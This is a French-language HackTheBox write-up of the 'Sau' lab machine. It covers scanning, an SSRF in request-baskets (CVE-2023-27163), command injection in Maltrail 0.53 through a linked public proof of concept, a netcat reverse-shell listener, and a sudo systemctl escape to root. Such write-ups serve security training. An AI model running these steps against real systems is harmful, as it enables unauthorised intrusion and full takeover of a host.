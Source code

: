 ```yaml
---
title:  "HacktheBox WriteUp : Sau"
category: HackTheBox
tag: writeups
---
```

### Skills
- Nmap
- gobuster
-

### Scanner le réseau

On scan le réseau et on voit un port étrange ouvert (5555).
On remarque que le port 80 est filtered (probable présence d'un firewall).
```console
└─$ nmap  10.10.11.224 
Starting Nmap 7.92 ( https://nmap.org ) at 2023-10-30 11:53 CET
Nmap scan report for 10.10.11.224
Host is up (0.11s latency).
Not shown: 997 closed tcp ports (conn-refused)
PORT      STATE    SERVICE
22/tcp    open     ssh
80/tcp    filtered http
55555/tcp open     unknown
```

En accédant à l'adresse ip au port 55555 par un navigateur, on s'aperçoit qu'il s'agit d'un serveur web.

On fait une recherche des endpoints en attendant :
```console
└─$ gobuster dir -u http://10.10.11.224:55555 --wordlist /usr/share/dirb/wordlists/common.txt
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/@                    (Status: 400) [Size: 75]
/~adm                 (Status: 400) [Size: 75]
/~admin               (Status: 400) [Size: 75]
/~administrator       (Status: 400) [Size: 75]
/~amanda              (Status: 400) [Size: 75]
/~bin                 (Status: 400) [Size: 75]
/~apache              (Status: 400) [Size: 75]
/~ftp                 (Status: 400) [Size: 75]
/~lp                  (Status: 400) [Size: 75]
/~nobody              (Status: 400) [Size: 75]
/~operator            (Status: 400) [Size: 75]
/~log                 (Status: 400) [Size: 75]
/~mail                (Status: 400) [Size: 75]
/~httpd               (Status: 400) [Size: 75]
/~http                (Status: 400) [Size: 75]
/~guest               (Status: 400) [Size: 75]
/~logs                (Status: 400) [Size: 75]
/~tmp                 (Status: 400) [Size: 75]
/~webmaster           (Status: 400) [Size: 75]
/~www                 (Status: 400) [Size: 75]
/~sysadmin            (Status: 400) [Size: 75]
/~test                (Status: 400) [Size: 75]
/~sys                 (Status: 400) [Size: 75]
/~sysadm              (Status: 400) [Size: 75]
/~root                (Status: 400) [Size: 75]
/~user                (Status: 400) [Size: 75]
/baskets              (Status: 401) [Size: 0]
/Documents and Settings (Status: 400) [Size: 75]
/lost+found           (Status: 400) [Size: 75]
/Program Files        (Status: 400) [Size: 75]
/reports list         (Status: 400) [Size: 75]
/web                  (Status: 200) [Size: 8700]
```

Le serveur web implémente un webservice appelé `request-baskets`, conçu pour capturer des requêtes HTTP arbitraires et faciliter leur inspection via une API RESTful ou une interface utilisateur Web simple.

Pour cela, on peut créer un "basket" (ie un endpoint sur le site):

<img src="/assets/images/WriteUps/HackTheBox/Sau/webserver5555.png" width="600px" height="250px" style="display: block; margin: 0 auto"/>

On récupère la version de `request-baskets` dans le footer et on voit qu'il existe un exploit.

### Request-baskets 1.2.1 SSRF - CVE-2023-27163 
La vulnérabilité en question est de type SSRF. 
Le paramètre `forward_url` de l'API suivante est vulnérable au SSRF :

```console
/api/baskets/{nom}
/paniers/{nom}
```

Prenons l'exemple de l'API `/api/baskets/{name}`.
On peut voir qu'une fois un basket créé, on peut configurer ce dernier, entre autres la redirection du traffic http qui est exécuté sur ce endpoint (**Forward URL**).

On se rappelle du port 80 qui n'était accessible depuis un réseau externe. Cependant, avec une attaque SSRF, on va rediriger nos requêtes vers le server web sur le port 80 par l'intermédiaire du server web du port 5555. Ce serveur web (port 55555) ayant des droits supérieurs à une machine extérieur au réseau interne, va pouvoir accéder au serveur du port 80 : c'est le principe de SSRF.
<img src="/assets/images/WriteUps/HackTheBox/Sau/SSRFPayload.png" width="600px" height="300px" style="display: block; margin: 0 auto"/>

### Maltrail 0.53 

On arrive sur une page qui nous propose un service nommé "Maltrail", avec sa version. Premier réflexe : vérifier s'il n'existe pas un exploit sur google.
<img src="/assets/images/WriteUps/HackTheBox/Sau/Maltrail.png" width="600px" height="300px" style="display: block; margin: 0 auto"/>

Sur le service Maltrail pour les version <=0.54, il existe une OS injection comme démontré [ici](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/).

On retrouve un [POC](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main) pour l'exécution de la vulnérabilité qui nous facilite la tâche.

### Acces Initial
On va utiliser le POC trouvé, pour cela on met un port en écoute en attente d'une connection :

```console
$ nc -lvnp 2222
```

Et on execute le script comme indiqué dans le github :

```console
$ python3 exploit.py [listening_IP] [listening_PORT] [target_URL]
```

## Escalade de privilège

On vérifie les privilèges sudo de l'utilisateur courant :
<img src="/assets/images/WriteUps/HackTheBox/Sau/sudoL.png" width="600px" height="100px" style="display: block; margin: 0 auto"/>


Puis en regardant les [GTFOBins](https://gtfobins.github.io/gtfobins/systemctl/) pour la commande `systemctl`, on devient root et on obtient le flag :
```console
$ sudo /usr/bin/systemctl status trail.service
!sh
# id
uid=0(root) gid=0(root) groups=0(root)
```
<img src="/assets/images/WriteUps/HackTheBox/Sau/sudoRoot.png" width="800px" height="300px" style="display: block; margin: 0 auto"/>

## Ref

- https://medium.com/@li_allouche/request-baskets-1-2-1-server-side-request-forgery-cve-2023-27163-2bab94f201f7
- [Request-basket CVE-2023-27163](https://github.com/entr0pie/CVE-2023-27163)
- [OS Command Injection Maltrail](https://huntr.com/bounties/be3c5204-fbd9-448d-b97c-96a8d2941e87/)
- [POC Maltrail - OS Command Injection](https://github.com/spookier/Maltrail-v0.53-Exploit/tree/main)
- [GTFOBins][https://gtfobins.github.io]

A changer sur mon site :
https://book.hacktricks.xyz/generic-methodologies-and-resources/shells/full-ttys